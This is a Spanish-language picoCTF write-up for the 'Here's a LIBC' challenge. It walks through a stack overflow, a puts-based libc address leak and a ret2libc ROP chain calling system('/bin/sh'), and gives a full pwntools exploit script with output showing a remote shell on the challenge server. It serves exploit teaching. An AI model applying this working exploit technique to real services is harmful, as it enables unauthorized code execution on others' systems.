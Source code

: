 En este ejercicio se nos presenta un binario, un libc y un makefile.

```c
./vuln_patched         
WeLcOmE To mY EcHo sErVeR!
hola
HoLa
```

En este ejercicio nuestro objetivo es el siguiente:

1. Imprimir la dirección de libc
2. Llamar a system(“/bin/sh“)

El binario tiene una vulnerabilidad en la que no se ha limitado el buffer y podemos sobrescribir valores en el stack.

```c
./vuln_patched
WeLcOmE To mY EcHo sErVeR!
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999
999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999d
zsh: segmentation fault  ./vuln_patched
```

Vamos a encontrar el offset:

```c
cyclic 200
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa

RSP  0x7fffffffdc08 ◂— 'raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa'

pwndbg> cyclic -l 'raaaaaaa'
Finding cyclic pattern of 8 bytes: b'raaaaaaa' (hex: 0x7261616161616161)
Found at offset 136
```

Vale, ahora que sabemos en que dirección está la dirección de retorno y tenemos control del RIP podemos intentar sacar la dirección base del libc.

Para esto podemos usar `puts` para hacer un leak de la dirección de `puts` y luego en nuestro `solve.py` poder calcular la base de libc:

```c
offset = 136

puts_plt = exe.plt['puts']
puts_got = exe.got['puts']
main_addr = exe.symbols['main']
pop_rdi = 0x00400913 # pop rdi; ret

payload1 = flat({
    offset: [
        pop_rdi,
        puts_got, // Dirección de puts
        puts_plt, // Dirección "cacheada" de puts
        main_addr // Dirección de Retorno
        ]
    })
    
leak = io.recvn(6)  // Hay que imprimirlo de esta forma porque la dirección tiene el byte 0a, que es un \n y la función recvline lo corta
leak = leak.ljust(8, b'\x00')
leak = u64(leak)
info(f'Leak: {hex(leak)}')
```

Con esto el programa nos imprime la dirección de puts en la libc:

```c
[*] Leak: 0x7ffff7880a30
```

Ahora que tenemos la dirección podemos hacerle a saber a pwntools cual es la dirección a la libc:

```python
libc.address = leak - libc.symbols['puts']
```

Ahora que hemos actualizado la dirección podemos hacer el script:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./vuln_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = f'''
b *{exe.plt['puts']}
continue
'''

def conn():
    if args.REMOTE:
        return remote("mercury.picoctf.net", 37289)
    r = process([exe.path])
    if args.GDB:
        gdb.attach(r, gdbscript=gdb_script)
    return r

offset = 136

puts_plt = exe.plt['puts']
puts_got = exe.got['puts']
main_addr = exe.symbols['main']
pop_rdi = 0x00400913 # pop rdi; ret
ret = 0x0040052e

def main():

    payload1 = flat({
        offset: [
            pop_rdi,
            puts_got,
            puts_plt,
            main_addr
        ]
    })

    io = conn()
    io.sendlineafter(b'!', payload1)
    leak = io.recvlines(2)
    leak = io.recvn(6)
    leak = leak.ljust(8, b'\x00')
    leak = u64(leak)
    info(f'Leak: {hex(leak)}')
    info(f'Puts plt: {hex(puts_plt)}')
    info(f'Puts got: {hex(puts_got)}')
    
    libc.address = leak - libc.symbols['puts']

    info(f'Base del binario: {hex(libc.address)}')
    bin_sh = next(libc.search(b"/bin/sh"))
    
    payload2 = flat({
        offset: [
            ret,  # El Stack estaba desalineado
            pop_rdi,
            bin_sh,
            libc.symbols['system']
        ]
    })
    
    io.sendlineafter(b'!', payload2)
    io.interactive()

if __name__ == "__main__":
    main()

```

Funciona!

```c
   ~/Desktop/picoCTF/heres_a_libc ❯ python solve.py
[*] '/home/ub1cu0/Desktop/picoCTF/heres_a_libc/vuln_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
[+] Opening connection to mercury.picoctf.net on port 37289: Done
[*] Leak: 0x7f82d1bd6a30
[*] Puts plt: 0x400540
[*] Puts got: 0x601018
[*] Base del binario: 0x7f82d1b56000
[*] Switching to interactive mode

AaAaBaAaCaAaDaAaEaAaFaAaGaAaHaAaIaAaJaAaKaAaLaAaMaAaNaAaOaAaPaAaQaAaRaAaSaAaTaAaUaAaVaAaWaAaXaAaYaAazaabbaabcaabdaabeaabd$  
$ whoami
here-s-a-libc_1
$ ls
flag.txt
libc.so.6
vuln
vuln.c
xinet_startup.sh
```
